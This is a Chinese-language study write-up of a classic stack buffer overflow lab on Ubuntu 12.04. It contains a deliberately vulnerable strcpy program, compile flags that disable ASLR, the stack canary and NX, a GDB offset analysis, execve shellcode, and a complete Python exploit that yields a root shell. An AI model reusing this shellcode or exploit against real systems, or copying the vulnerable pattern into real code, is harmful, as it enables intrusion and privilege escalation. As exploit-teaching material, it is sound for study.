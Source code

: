 # 栈溢出学习（一）

跟随教程https://sploitfun.wordpress.com/2015/

此次实验参考https://sploitfun.wordpress.com/2015/05/08/classic-stack-based-buffer-overflow/

## 经典栈溢出

这次实验是最简单的栈溢出实验，没有任何防护机制。

## 实验环境

​	Ubuntu12.04（一开始用的64位Kali-Linux，踩了不少坑，最后还是用了教程上面的环境Ubuntu12.04）

## 漏洞代码：

```c
//vuln.c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
        /* [1] */ char buf[256];
        /* [2] */ strcpy(buf,argv[1]);
        /* [3] */ printf("Input:%s\n",buf);
        return 0;
}
```

分析：当我们输出的字符串大于256字节，覆盖到main函数的返回地址，使其指向我们的shellcode，就可以完成攻击

## 编译命令

```shell
$echo 0 > /proc/sys/kernel/randomize_va_space
$gcc -g -fno-stack-protector -z execstack -o vuln vuln.c
```

第一条指令是为了关闭ASRL保护机制

第二条指令-g 产生debug信息，便于接下来使用gdb调试，-fno-stack-protector关闭canary保护机制，-z execstack关闭NX保护机制，允许在栈上执行代码。

## GDB运行程序

```shell
gdb -q vuln
```

运行程序

```
(gdb) disassemble main
Dump of assembler code for function main:			//注意Intel格式
   0x08048414 <+0>:	push   %ebp						
   0x08048415 <+1>:	mov    %esp,%ebp				//这两句不用解释
   0x08048417 <+3>:	and    $0xfffffff0,%esp			//对齐
   0x0804841a <+6>:	sub    $0x110,%esp				//分配栈空间
   0x08048420 <+12>:	mov    0xc(%ebp),%eax		//%eax = argv
   0x08048423 <+15>:	add    $0x4,%eax			//$eax = argv + 4 = &argv[1]
   0x08048426 <+18>:	mov    (%eax),%eax			//%eax = argv[1]
   0x08048428 <+20>:	mov    %eax,0x4(%esp)		//Mem[%esp + 4] = %eax = argv[1]
   0x0804842c <+24>:	lea    0x10(%esp),%eax		//%eax = %esp + 10	这个esp+10就是buf的起始地址
   0x08048430 <+28>:	mov    %eax,(%esp)			//Mem[%esp] = %eax = %esp + 10
   0x08048433 <+31>:	call   0x8048330 <strcpy@plt>	//调用strcpy函数
   0x08048438 <+36>:	mov    $0x8048530,%eax		//0x8048330应该是"Input:%s"的起始地址
   0x0804843d <+41>:	lea    0x10(%esp),%edx		//%edx = %esp + 10等于buf的起始地址
   0x08048441 <+45>:	mov    %edx,0x4(%esp)		//Mem[%esp + 4] = %esp + 10
   0x08048445 <+49>:	mov    %eax,(%esp)			//Mem[%esp] = 0x8048330，其实这里涉及到一个很有意思的东西，linux32位下面的函数调用约定_cdecl，从右向左依次压栈，因此"Input:%s“在栈顶，buf在%esp+4的位置
   0x08048448 <+52>:	call   0x8048320 <printf@plt>	//调用printf函数
   0x0804844d <+57>:	mov    $0x0,%eax	//设置返回值为0，return 0
   0x08048452 <+62>:	leave  //%esp = %ebp, pop %ebp
   0x08048453 <+63>:	ret    //%eip = [%esp], %esp += 4
End of assembler dump.
```

![image-20201021213011239](http://sql.icrystal.top/image-20201021213011239.png)

shellcode攻击分为以下三步

* 找到buf起始地址到返回地址的空间大小

  经过上面的反汇编代码，我们可以看到buf起始地址在%esp+10的地方，而%esp = %ebp - 0x110，依次他距离%ebp为0x100字节由于前面有一个%esp对齐操作，造成了esp大小的改变，教程中直接说明这里面esp其实移动了8字节，然后再算上ebp寄存器4字节的大小，所以一共是0x10C个字节（268个字节）

  这里提供一个找自己方便的方式，不需要知道```and 0xfffffff0, %esp```指令的效果，便可以计算出原来的esp到没有减0x110的esp之间的距离

  ```shell
  (gdb) b *0x08048414				//我们在push %ebp处打断点，这时esp栈顶指针指向返回地址
  Breakpoint 1 at 0x8048414: file basic_stack_overflow.c, line 4.
  (gdb) b *0x0804841a				//在sub $0x110, %esp处打断点，这是esp的值为原来的esp-4，然后对齐过后的值，可以想象，这两条指令执行之前esp的差值最后加上0x100就是buf到返回地址的差距  
  Breakpoint 2 at 0x804841a: file basic_stack_overflow.c, line 4.
  (gdb) run
  The program being debugged has been started already.
  Start it from the beginning? (y or n) y
  
  Starting program: /home/jackson/Program/CTF/Pwn/vuln 
  
  Breakpoint 1, main (argc=2, argv=0xbffff614)
      at basic_stack_overflow.c:4
  4	int main(int argc, char* argv[]) {
  (gdb) p $esp					//查看第一个断点esp的值
  $4 = (void *) 0xbffff57c
  (gdb) c
  Continuing.
  
  Breakpoint 2, 0x0804841a in main (argc=2, argv=0xbffff614)
      at basic_stack_overflow.c:4
  4	int main(int argc, char* argv[]) {
  (gdb) p $esp					//查看第二个断点esp的值
  $5 = (void *) 0xbffff570
  (gdb) 
  ```

  0xbffff570-0xbffff57c = 0xc = 12

  12 + 0x100 = 0x10c = 268

* 决定覆盖返回地址的新地址，也就是我们shellcode的起始地址

  这个起始地址一般是指向返回地址的esp值+4，需要获取时我们就在ret指令之前打一个断点，然后p指令输出

  ```shell
  (gdb) b *0x08048453			//打断点
  Breakpoint 2 at 0x8048453: file basic_stack_overflow.c, line 9.
  (gdb) run `python -c 'print "A" * 300'`
  The program being debugged has been started already.
  Start it from the beginning? (y or n) y
  
  Starting program: /home/jackson/Program/CTF/Pwn/vuln `python -c 'print "A" * 300'`
  Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  
  Breakpoint 2, 0x08048453 in main (argc=1094795585, argv=0x41414141)
      at basic_stack_overflow.c:9
  9	}
  (gdb) p $esp
  $1 = (void *) 0xbffff55c
  (gdb) 
  ```

  可以看到指向return address的栈指针为0xbffff55c，因此我们设置新的地址的值可以是0xbffff560，实际上gdb调试的地址和真实运行时的地址是不一样的，参见https://www.mathyvanhoef.com/2012/11/common-pitfalls-when-writing-exploits.html

* shellcode的编写

  本次shellcode实现```execv('/bin//sh')的函数

  ```assembly
  0:  31 c0                   xor    eax,eax
  2:  50                      push   eax
  3:  68 2f 2f 73 68          push   0x68732f2f	//'//sh'
  8:  68 2f 62 69 6e          push   0x6e69622f	//'/bin'
  d:  89 e3                   mov    ebx,esp
  f:  50                      push   eax
  10: 89 e2                   mov    edx,esp
  12: 53                      push   ebx
  13: 89 e1                   mov    ecx,esp
  15: b0 0b                   mov    al,0xb
  17: cd 80                   int    0x80
  ```

## 开始Exploit

```python
#exp.py 
#!/usr/bin/env python
import struct
from subprocess import call

#Stack address where shellcode is copied.
ret_addr = 0xbffff1d0       #记得修改为自己的
              
#Spawn a shell
#execve(/bin/sh)
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"		#就是我们上面的汇编代码的机器码

#endianess convertion
def conv(num):
 return struct.pack("<I",num)

# buf = Junk + RA + NOP's + Shellcode
buf = "A" * 268
buf += conv(ret_addr)
buf += "\x90" * 100
buf += scode

print "Calling vulnerable program"
call(["./vuln", buf])
```

执行效果如下：

```
$ python exp.py 
Calling vulnerable program
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��������������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��S���

# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```

![image-20201021231917585](http://sql.icrystal.top/image-20201021231917585.png)

